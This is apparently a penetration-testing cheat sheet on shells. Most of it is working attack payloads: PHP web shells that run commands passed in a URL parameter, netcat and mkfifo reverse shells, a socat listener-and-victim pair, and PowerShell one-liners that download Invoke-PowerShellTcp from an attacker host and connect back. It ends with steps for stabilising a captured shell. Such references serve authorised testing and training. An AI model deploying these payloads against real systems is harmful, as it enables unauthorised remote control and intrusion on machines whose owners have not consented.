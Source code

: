 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional
```
nc ip 1234 -e /bin/bash
```
- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```
- Socat
```shell
# listener
socat TCP-L:1234 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell
```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 1234"
```
- Powershell (staged)
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 1234
```


## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```
```shell
python -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

